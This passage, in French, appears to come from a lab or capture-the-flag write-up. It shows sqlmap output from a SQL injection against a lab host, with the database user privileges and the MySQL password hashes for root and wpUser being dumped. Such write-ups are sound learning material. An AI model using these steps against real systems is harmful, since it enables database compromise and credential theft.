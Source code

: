 ```console
[15:33:55] [INFO] fetched data logged to text files under '/home/nico/.local/share/sqlmap/output/192.168.56.102'

[*] ending @ 15:33:55
```

sqlmap validant la vulnérabilité, on peut désormais l'utiliser pour l'exploitation.

Avec l'option `--privileges` je peux dumper les privilèges du compte utilisé (ici `root`).


```
[15:34:49] [INFO] fetching database users privileges
database management system users privileges:
[*] 'root'@'localhost' (administrator) [29]:
    privilege: ALTER
    privilege: ALTER ROUTINE
    privilege: CREATE
    privilege: CREATE ROUTINE
    privilege: CREATE TABLESPACE
    privilege: CREATE TEMPORARY TABLES
    privilege: CREATE USER
    privilege: CREATE VIEW
    privilege: DELETE
    privilege: DELETE HISTORY
    privilege: DROP
    privilege: EVENT
    privilege: EXECUTE
    privilege: FILE
    privilege: INDEX
    privilege: INSERT
    privilege: LOCK TABLES
    privilege: PROCESS
    privilege: REFERENCES
    privilege: RELOAD
    privilege: REPLICATION CLIENT
    privilege: REPLICATION SLAVE
    privilege: SELECT
    privilege: SHOW DATABASES
    privilege: SHOW VIEW
    privilege: SHUTDOWN
    privilege: SUPER
    privilege: TRIGGER
    privilege: UPDATE
[*] 'wpUser'@'localhost' [1]:
    privilege: USAGE
```

J'ai entre autres le privilège `FILE` qui peut permettre de lire les fichiers du système.

J'ai dumpé les hashs avec `--password` mais je n'ai pas été en mesure de les casser:

```
database management system users password hashes:
[*] root [1]:
    password hash: *10A336BFD5A0DD68031AFFE4C164B1886EF3A5AA
[*] wpUser [1]:
    password hash: *D1C12D29CD1C3D6D5ADAA2D8AABA21F2EA4B8495
```
